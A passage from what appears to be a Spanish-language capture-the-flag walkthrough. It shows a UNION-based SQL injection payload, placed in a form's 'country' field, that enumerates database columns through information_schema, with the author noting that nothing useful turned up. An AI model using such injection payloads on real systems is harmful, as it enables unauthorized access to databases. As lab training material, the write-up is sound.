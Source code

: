 ![](/assets/img/Validation/image_9.png)

`Listamos` todas las `columnas` para la base de datos registration y la tabla registration

```
# username=test&country=Brazil' union select column_name from information_schema.columns where table_schema='registration'-- - 
```

![](/assets/img/Validation/image_10.png)

Comprobamos si hay algo interesante en las tablas `username` y `userhash`, pero no encontramos nada
